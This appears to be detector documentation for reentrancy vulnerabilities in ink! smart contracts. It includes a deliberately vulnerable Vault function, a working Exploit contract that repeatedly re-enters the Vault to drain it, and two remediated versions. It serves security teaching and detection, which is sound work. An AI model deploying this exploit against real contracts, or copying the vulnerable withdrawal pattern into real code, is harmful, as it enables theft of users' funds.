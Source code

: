 # Reentrancy
## Description
* Vulnerability Category: `Reentrancy`
* Severity: `High`
* Detector ID: `reentrancy`

Smart contracts can call other contracts and send tokens to them. These 
operations imply external calls where control flow is passed to the called
contract until the execution of the called code is over. Then the control 
is delivered back to the caller.

External calls, therefore, could open the opportunity for a malicious contract
to execute any arbitrary code. This includes calling back the caller contract,
an attack known as reentrancy. This kind of attack was used in Ethereum for 
the infamous [DAO Hack](https://blog.chain.link/reentrancy-attacks-and-the-dao-hack/).

## Exploit Scenario
In order to exemplify this vulnerability we developed two contracts: 
a `Vault` contract and an `Exploit` contract.

The `Vault` contract provides functions to deposit, withdraw, check balance, 
and call a function on another contract with a specified value.

```rust
#[ink(message)]
pub fn call_with_value(&mut self, address: AccountId, amount: Balance, selector: u32) -> Balance {
    ink::env::debug_println!("call_with_value function called from {:?}",self.env().caller());
    let caller_addr = self.env().caller();
    let caller_balance = self.balances.get(caller_addr).unwrap_or(0);
    if amount <= caller_balance {
        let call = build_call::<ink::env::DefaultEnvironment>()
            .call(address)
            .transferred_value(amount)
            .exec_input(
                ink::env::call::ExecutionInput::new(Selector::new(selector.to_be_bytes()))
            )
            .call_flags(
                ink::env::CallFlags::default()
                    .set_allow_reentry(true)
            )
            .returns::<()>()
            .params();
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));
        self.balances.insert(caller_addr, &(caller_balance - amount));

        return caller_balance - amount;
    } else {
        return caller_balance
    }
}
```

Th function `call_with_value function()` allows the contract owner to call 
other contracts on the blockchain and transfer a specified amount of value in
the process. The function takes three arguments:
- *address*: The address of the contract to call.
- *amount*: The amount of balance to transfer in the call.
- *selector*: The 32-bit function selector of the function to call on the contract.

The function first checks the balance of the caller to make sure that they have
enough funds to perform the transfer. If the balance is sufficient, a new call
is constructed using the `build_call()` function provided by the 
`env::call module`.

The `build_call()` function constructs a new contract call with the specified
arguments. In this case, the call method is used to specify the address of the 
contract to call, the transferred_value method is used to specify the amount 
of balance to transfer, and the exec_input method is used to specify the 
function selector and any arguments to pass to the called function.

The `call_flags()` method is also used to set a flag that allows the called
contract to re-enter the current contract if necessary. This possibility to
re-enter the contract, together with an appropriate 32-bit function selector 
will allow us to repeatedly withdraw balance from the contract, emptying the 
Vault.

In order to perform this attack, we will use the `exploit()` function of the
`Exploit` contract that we outline below:

```rust
#[ink(message, payable, selector = 0x0)]
pub fn exploit(&mut self) {
    ink::env::debug_println!("Exploit  function called from {:?} gas left {:?}",self.env().caller(), self.env().gas_left());
    if self.env().gas_left() > self.gas_to_stop{
        let call = build_call::<ink::env::DefaultEnvironment>()
        .call(self.contract)
        .transferred_value(0)
        .exec_input(
            ink::env::call::ExecutionInput::new(Selector::new([0x76_u8,0x75_u8,0x7E_u8,0xD3_u8]))
                .push_arg(self.env().account_id())
                .push_arg(self.amount)
                .push_arg(0)
        )
        .call_flags(
            ink::env::CallFlags::default()
                .set_allow_reentry(true)
        )
        .returns::<Balance>()
        .params();
        ink::env::debug_println!("Call generated gas left:{:?}",self.env().gas_left());
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));
        ink::env::debug_println!("Call finished");
    }
}

```
### Deployment
Vault and Exploit files can be found under the directories 
[./vulnerable-example/exploit](./vulnerable-example/exploit/) and 
[./vulnerable-example/vault](./vulnerable-example/vault/). 
The whole exploit example can be run automatically using the `deploy.sh` file.

## Recommendation
In general, risks associated to reentrancy can be addressed with the 
Check-Effect-Interaction pattern, a best practice that indicates that external 
calls should be the last thing to be executed in a function. In this example, 
this can be done by inserting the balance before transferring the value (see 
[./remediated-example/remediated-example-1](./remediated-example/remediated-example-1/)).


```rust
pub fn call_with_value(&mut self, address: AccountId, amount: Balance, selector: u32) -> Balance {
    ink::env::debug_println!("call_with_value function called from {:?}",self.env().caller());
    let caller_addr = self.env().caller();
    let caller_balance = self.balances.get(caller_addr).unwrap_or(0);
    if amount <= caller_balance {
        self.balances.insert(caller_addr, &(caller_balance - amount));
        let call = build_call::<ink::env::DefaultEnvironment>()
            .call(address)
            .transferred_value(amount)
            .exec_input(
                ink::env::call::ExecutionInput::new(Selector::new(selector.to_be_bytes()))
            )
            .call_flags(
                ink::env::CallFlags::default()
                    .set_allow_reentry(true)
            )
            .returns::<()>()
            .params();
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));

        return caller_balance - amount;
    } else {
        return caller_balance
    }
}
```

Alternatively, if reentrancy by an external contract is not needed, the 
`set_allow_reentry(true)` should be removed altogether (see 
[./remediated-example/remediated-example-2](./remediated-example/remediated-example-2/)). 
This is equivalent in Substrate to using a 
[reentrancy guard](https://github.com/Supercolony-net/openbrush-contracts/tree/main/contracts/src/security/reentrancy_guard) 
like the one offered by [OpenBrush](https://github.com/Supercolony-net/openbrush-contracts).

```rust
#[ink(message)]
pub fn call_with_value(&mut self, address: AccountId, amount: Balance, selector: u32) -> Balance {
    ink::env::debug_println!("call_with_value function called from {:?}",self.env().caller());
    let caller_addr = self.env().caller();
    let caller_balance = self.balances.get(caller_addr).unwrap_or(0);
    if amount <= caller_balance {
        let call = build_call::<ink::env::DefaultEnvironment>()
            .call(address)
            .transferred_value(amount)
            .exec_input(
                ink::env::call::ExecutionInput::new(Selector::new(selector.to_be_bytes()))
            )
            .returns::<()>()
            .params();
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));
        self.balances.insert(caller_addr, &(caller_balance - amount));

        return caller_balance - amount;
    } else {
        return caller_balance
    }
}
```

## References
* https://use.ink/datastructures/storage-layout
* https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/
* https://dasp.co/#item-1
* https://blog.sigmaprime.io/solidity-security.html#SP-1
* https://docs.soliditylang.org/en/develop/security-considerations.html#re-entrancy
* [Ethernaut: Reentrancy](https://ethernaut.openzeppelin.com/level/0xe6BA07257a9321e755184FB2F995e0600E78c16D)
* [SWC-107](https://swcregistry.io/docs/SWC-107)
* [Slither: Reentrancy vulnerabilities (theft of ethers)](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities)
* [Slither: Reentrancy vulnerabilities (no theft of ethers)](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-1)
* [Slither: Benign reentrancy vulnerabilities](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-2)
* [Slither: Reentrancy vulnerabilities leading to out-of-order Events](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-3)
* [Slither: Reentrancy vulnerabilities through send and transfer](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-4)
